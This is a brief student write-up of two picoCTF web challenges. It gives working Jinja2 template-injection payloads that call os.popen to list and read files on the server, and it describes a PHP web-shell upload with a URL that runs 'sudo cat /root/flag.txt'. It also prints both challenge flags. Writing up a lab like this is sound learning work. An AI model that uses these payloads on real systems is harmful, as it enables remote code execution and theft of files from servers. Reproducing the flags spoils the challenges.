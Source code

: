# Pico-CTF

CTF #1
The first CTF that I did on the pico site is the SSTI1 CTF.

The description of the ctf is:
I made a cool website where you can announce whatever you want! Try it out!
Additional details will be available after launching your challenge instance.
The first hint is:
Server Side Template Injection

The main bulk of this ctf is injecting commands into a notification line on a hosted website that has little security. 
Using Jinja2 there the command {{config.items()}} allows you to see configuration data, one thing revealed is ('SECRET_KEY', None),

The following remote injection will show globals within the directory of the server.
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}

Using this shows a file called flagrequirements.txt

The following injection will read the previous file giving the flag.
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}

The flag is: picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_424a1494}

CTF #2
The second CTF that I did is n0s4n1ty 1.

The description of the ctf is:
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.
Additional details will be available after launching your challenge instance.
The hints are:
File upload was not sanitized
Whenever you get a shell on a remote machine, check sudo -l

The main point of this ctf is inputing a php shell to the server which unloads a script that the hacker writes instead of a profile picture.
Using scripts you can check the permissions of the user and can find out that there is no password to access the root. 
The following url will lead to the final ctf as the root user:
http://standard-pizzas.picoctf.net:63914/uploads/shell.php?cmd=sudo cat /root/flag.txt

The flag is: picoCTF{wh47_c4n_u_d0_wPHP_f7424fc7

Kevin Montes :D
&
Oliver Eulert
